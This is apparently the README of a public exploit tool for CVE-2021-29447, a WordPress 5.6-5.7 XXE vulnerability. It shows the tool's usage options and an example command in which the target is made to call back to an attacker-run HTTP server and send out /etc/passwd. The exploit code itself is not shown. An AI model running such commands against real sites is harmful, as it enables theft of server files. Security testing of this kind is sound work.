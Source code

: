 # [CVE-2021-29447](https://nvd.nist.gov/vuln/detail/CVE-2021-29447)
WordPress 5.6-5.7 - Authenticated XXE Within the Media Library Affecting PHP 8

---
### Usage

```
┌──(magicrc㉿perun)-[~/code/CVE-2021-29447]
└─$ python3 ./CVE-2021-29447.py 
usage: python3 ./CVE-2021-29447.py [--lhost LHOST] [--lport LPORT] [--target TARGET] [--user USER] [--password PASSWORD] [--file FILE] [--timeout TIMEOUT]

options:
  --lhost LHOST        IP address where the HTTP server will listen, must be reachable by the target
  --lport LPORT        Local port for the HTTP server to bind to
  --target TARGET      Full URL of the WordPress target
  --user USER          Username used to authenticate with the WordPress site
  --password PASSWORD  Password for the specified WordPress user
  --file FILE          Absolute path of the file to attempt exfiltration from the target system
  --timeout TIMEOUT    Maximum number of seconds to wait for the exfiltration callback before shutting down the server

Example: python3 ./CVE-2021-29447.py --lhost 10.10.14.157 --lport 8080 --target http://target.com --user user --password pass --file /etc/passwd
```
